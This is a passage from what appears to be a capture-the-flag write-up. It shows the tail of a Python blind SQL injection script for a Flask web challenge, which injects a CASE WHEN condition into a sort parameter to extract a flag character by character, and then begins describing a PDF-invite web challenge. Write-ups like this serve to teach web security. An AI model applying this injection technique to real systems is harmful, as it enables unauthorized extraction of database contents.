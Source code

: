 ```python
        data = {
            "search": text_to_search,
            "order": f"CASE WHEN {condition} THEN atomic_number ELSE symbol END"
        }
        r = requests.post(url, data=data)
        if(d[hashlib.md5(r.text.encode()).hexdigest()]):
            print("flag:", flag)
            flag += char
            i += 1
            break
    if i == start_i:
        break
```

![flask](./images/flask-metal.png)

## Web Challenge: DeafCon

### Description/Source

We are given a website where if we key in our name and email. A pdf invite will be generated based on that information.
